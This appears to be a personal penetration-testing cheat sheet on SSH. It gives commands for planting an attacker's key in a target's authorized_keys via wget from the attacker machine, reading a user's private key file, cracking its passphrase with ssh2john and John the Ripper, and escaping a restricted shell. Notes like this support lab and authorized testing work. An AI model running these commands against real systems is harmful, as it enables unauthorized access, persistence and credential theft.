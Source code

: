 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### SSH Enuemration
```bash - kali
ssh $TARGET -p 22
```

#### Generate key upload to victim
Target:
```bash - target
cd ~
```

```bash - target
mkdir .ssh && cd .ssh
```

Kali:
```bash - kali
ssh-keygen
```

```bash - kali
cp /home/kali/.ssh/id_rsa* .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Target:
```bash - target
wget http://$KALI/id_rsa.pub
```

```bash - target
mv id_rsa.pub authorized_keys
```

Grant proper permissions (0700 for **~/.ssh** and 0644 for **~/.ssh/authorized_keys**).

Kali:
```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```

If that fails, try:
```bash - kali
echo id_rsa.pub > ~/.ssh/authorized_keys
```

Then:
```bash - kali
ssh $USER@$TARGET
```

#### id_rsa

Target:
```bash
cat /home/user/.ssh/id_rsa
```

Kali, copy value to local id_rsa file:
```bash
sudo chmod 600 id_rsa
```

```bash
ssh -i id_rsa $USER@$TARGET -p 2222
```

#### Disable login scripts

Kali:
```bash - kali
ssh $USER@$TARGET -t 'bash --noprofile'
```

#### ssh2john keyphrase
```bash
locate ssh2john
```

OR

```bash
wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
```

```python
python3 /usr/share/john/ssh2john.py id_rsa > key.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
```

#### [Error] no matching host key exchange type found.
```bash - kali
ssh $TARGET -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc -p 22
```

```bash - kali
ssh $TARGET -oHostKeyAlgorithms=+ssh-dss -p 22
```

#### Escaping from rbash
```bash
ssh $USER@$TARGET -t "bash --noprofile"
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
